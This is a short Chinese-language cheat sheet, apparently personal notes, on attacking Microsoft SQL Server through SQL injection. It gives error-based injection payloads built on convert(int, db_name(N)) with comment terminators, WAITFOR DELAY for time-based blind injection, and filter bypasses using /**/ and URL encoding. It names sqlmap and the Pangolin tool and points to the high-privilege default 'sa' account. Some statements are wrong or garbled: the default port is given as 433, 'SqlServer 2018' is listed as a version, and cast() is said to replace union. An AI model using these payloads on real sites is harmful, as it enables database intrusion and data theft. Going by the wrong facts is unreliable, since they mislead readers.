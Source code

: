 Mssql（SqlServer）数据库都是经常与Asp和Aspx一起使用的，系统存放的表在视图-系统视图中

常用的版本
* SqlServer 2012
* SqlServer 2018


^
sqlserver报错注入：
```
id=1' and 1=convert(int,(select db_name(0)))--+
' and 1=convert(int,(select db_name(0))) AND 'qaq'='qaq    //记得url上url编码
id=1' and 1=convert(int,(select db_name(1)))--+   //查询第二个数据库，以此类推。
```

sqlserver时间盲注函数：WAITFOR DELAY

绕过：
```
空格变/**/
url编码
```

sqlserver注入工具可以使用穿山甲工具，sqlmap。

端口433，默认用户sa，有高权限。

sql语法与mysql区别：
联合查询不用union：用cast()
数据库名：DB_NAME()
在sqlsever中是可以执行多条操作的，两条sql语句是用分号进行分开的
